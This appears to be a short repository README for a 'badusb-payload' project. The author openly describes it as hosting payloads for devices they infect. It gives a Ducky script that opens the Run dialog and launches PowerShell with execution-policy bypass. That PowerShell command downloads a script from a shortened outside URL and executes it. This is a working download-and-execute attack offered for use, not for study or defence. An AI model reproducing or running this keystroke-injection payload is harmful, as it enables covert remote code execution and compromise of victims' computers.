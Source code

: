 # badusb-payload
Move along, i use this simply to host my payload for my badusb attacks. ^^
That means it's most likely very messy code that which has the goal to do my bidding on devices i infect.

To run my code i use this DUCKY script:
DELAY 500
GUI r
DELAY 100
STRING powershell -Exec Bypass iex ((New-Object System.Net.WebClient).DownloadString('https://3.ly/ao519'))
ENTER
